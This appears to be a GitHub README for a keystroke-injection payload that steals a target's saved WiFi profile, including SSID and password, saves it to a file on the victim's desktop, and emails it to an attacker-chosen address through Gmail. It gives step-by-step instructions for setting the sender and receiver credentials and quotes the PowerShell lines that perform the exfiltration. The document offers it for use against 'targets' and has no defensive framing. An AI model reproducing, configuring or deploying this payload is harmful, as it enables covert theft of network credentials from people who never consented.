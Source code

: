 This payload Steals a targets Wifi profile. I.E. SSID, Passowrd and Authentication type.

Saves the profile to a text file named "Profile.txt" on the targets desktop.

Then sends the contents of Profile.txt (which contains the targets wifi profile) via a gmail to an email address of your choosing.

You must Edit the script to include a sender Gamils account creds as well as a recievers email address.

**Wifi Profile can only be sent via Gmail but can be received to any email.**  

You will need to edit the feilds for Senders and recievers email creditals.
For Senders Email go to line 101 or find this line <i><b> Keyboard.print("$SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('CHANGE_THIS_GMAIL_ADDRESS@gmail.com', 'CHANGE_THIS_TO_EMAIL_PASSWORD')");</b></i>here you will need to change the text that says <i><b>CHANGE_THIS_GMAIL_ADDRESS@gmail.com<b/></i> to the gmail address the Wifi Profile is to be sent from.
Then Change the text that says <i><b>CHANGE_THIS_TO_EMAIL_PASSWORD</b></i> to the corresponding password of the email address from above.
IE: <i><b>Keyboard.print("$SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('johndoe.techjuvi@gmail.com', 'Password1234')")</b></i> We will also need to specify a "from" email. Find this line of code <i><b>Keyboard.print("$ReportEmail.From = 'CHANGE_TO_GMAIL_ADDRESS'");</b></i> on line 109 and edit the text <i><b>CHANGE_TO_GMAIL_ADDRESS</b></i> to the same Gmail address from above (senders Gmail).

The final change you'll need to make is to specify a Revievers Email. The line of code looks like this <i><b>Keyboard.print("$ReportEmail.To.Add('CHANGE_TO_Recievers_Email_ADDRESS')");</b></i> and can be found on line 113.

Simply change the text that says <i><b>CHANGE_TO_Recievers_Email_ADDRESS</b></i> to the email address you want to recieve the Target's WIFI Profile .





